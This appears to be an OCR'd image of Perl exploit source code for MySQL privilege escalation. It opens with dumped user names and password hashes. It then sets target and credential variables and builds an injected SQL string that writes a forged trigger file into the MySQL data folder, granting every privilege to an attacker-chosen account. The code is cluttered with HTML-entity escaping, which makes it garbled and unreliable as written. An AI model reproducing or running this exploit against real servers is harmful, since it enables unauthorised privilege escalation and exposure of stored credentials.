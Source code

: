Found a row: id = root, name = *81F5E21E35407D884A6CD4A731AEBFB6AF209E1B

Found a row: id = root, name = *81F5E21E35407D884A6CD4A731AEBFB6AF209E1B

Found a row: id = debian-sys-maint, name = *C5524C128621D8A050B6DD616B06862F9D64

B02C

Found a row: id = some1, name = *94BDCEBE19083CE2A1F959FD02F964C7AF4CFC29

Found a row: id = monty, name = *BF06A06D69EC935E85659FCDED1F6A80426ABD3B

Found a row: id = less, name = *94BDCEBE19083CE2A1F959FD02F964C7AF4CFC29

Found a row: id = r00ted, name = *EAD0219784E951FEE4B82C2670C9A06D35FD5697

Found a row: id = user, name = *14E65567ABDB5135D0CFD9A70B3032C179A49EE7

Found a row: id = less2, name = *94BDCEBE19083CE2A1F959FD02F964C7AF4CFC29

Found a row: id = less3, name = *94BDCEBE19083CE2A1F959FD02F964C7AF4CFC29

Found a row: id = rootedsql, name = *4149A2E66A41BD7C8F99D7F5DF6F3522B9D7D9BC

=cut

$user = &quot;less10&quot;;

$password = &quot;test&quot;;

$database = &quot;lessdb10&quot;;

$target = &quot;192.168.2.4&quot;;

$folder = &quot;/var/lib/mysql/&quot;; # Linux

$newuser = &quot;rootedbox2&quot;;

$newuserpass = &quot;rootedbox2&quot;;

$mysql_version = &quot;51&quot;; # can be 51 or 50

if ($mysql_version eq &quot;50&quot;) {

$inject =

&quot;select &amp;apos;TYPE=TRIGGERS&amp;apos; into outfile&amp;apos;&quot;.$folder.$database.&quot;/rootme.TRG&amp;apos; LINES TERMINATED BY &amp;apos; \\ntriggers=\\&amp;apos;CREATE DEFINER=`root`\@`localhost` trigger atk after insert on rootme for each row\\\\nbegin \\\\nUPDATE mysql.user SET Select_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Insert_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Update_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Delete_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Create_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Drop_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Reload_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Shutdown_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Process_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, File_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Grant_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, References_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Index_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Alter_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Show_db_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Super_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Create_tmp_table_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Lock_tables_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Execute_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Repl_slave_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Repl_client_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Create_view_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Show_view_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Create_routine_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Alter_routine_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Create_user_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, ssl_type=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, ssl_cipher=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, x509_issuer=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, x509_subject=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, max_questions=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, max_updates=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, max_connections=\\\\\\&amp;apos;Y\\\\\\&amp;apos; WHERE User=\\\\\\&amp;apos;$user\\\\\\&amp;apos;;\\\\nend\\&amp;apos;\\nsql_modes=0\\ndefiners=\\&amp;apos;root\@localhost\\&amp;apos;\\nclient_cs_names=\\&amp;apos;latin1\\&amp;apos;\\nconnection_cl_names=\\&amp;apos;latin1_swedish_ci\\&amp;apos;\\ndb_cl_names=\\&amp;apos;latin1_swedish_ci\\&amp;apos;\\n&amp;apos;;&quot;;
